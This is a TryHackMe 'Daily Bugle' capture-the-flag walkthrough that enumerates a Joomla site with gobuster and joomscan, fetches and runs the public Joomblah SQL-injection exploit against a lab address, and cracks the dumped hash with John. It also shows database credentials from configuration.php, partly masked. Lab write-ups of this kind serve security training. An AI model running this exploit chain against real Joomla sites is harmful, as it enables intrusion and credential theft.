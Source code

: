 # Daily Bugle Walkthrough -THM


![MainPage](/THM/DailyBugle/Sources/DailyBugle.png "Website")

enumerate shares by using gobuster

```
gobuster dir -u http://10.10.87.111 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40
```


The administrator directory looks interesting...



Joomla login.

Downloaded joomscan

```
perl joomscan.pl -u http://10.10.87.111
```


Version found!

Get upgraded Joomblah script
https://github.com/XiphosResearch/exploits/blob/3950e7618b1920b3d7d34ec6f72f4c0736d010d7/Joomblah/joomblah_py3.py

```
wget https://github.com/XiphosResearch/exploits/blob/3950e7618b1920b3d7d34ec6f72f4c0736d010d7/Joomblah/joomblah_py3.py
```
```
python3 joomblah_py3.py http://10.10.172.228
```

I created a text file with copied hash from joomblah output

```
nano hash.txt
(paste hash)
ctrl-x
y
enter
```

I then ran this against the hash pasted into hash.txt

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
User: j****
Password: s*********23
```

Found this in /var/www/html/configuration.php

```
public $user = 'root';
	public $password = 'nv***********Nu';
	public $db = 'joomla';
	public $dbprefix = 'fb9j5_';
	public $live_site = '';
	public $secret = 'U***********mVC';
```




